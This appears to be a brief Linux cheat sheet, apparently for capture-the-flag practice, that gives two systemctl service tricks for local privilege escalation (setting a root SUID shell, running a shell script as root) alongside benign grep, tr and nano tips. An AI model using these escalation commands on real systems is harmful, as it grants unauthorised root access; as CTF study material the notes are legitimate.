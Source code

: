 # Linux Enumeration Tips


## /bin/systemctl
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chown root:root /tmp/sh; chmod u+s /tmp/sh"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "python /tmp/shell.py"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

## Grep all file for string
```
grep -ilR "flag11" / 2>/dev/null
```

## Remove all newline space from file 
```
tr -d "\n\r" < yourfile.txt
```

## Remove specific character or space from Nano
```
ctrl + \
search the file _char
replace the file _char
choose option
```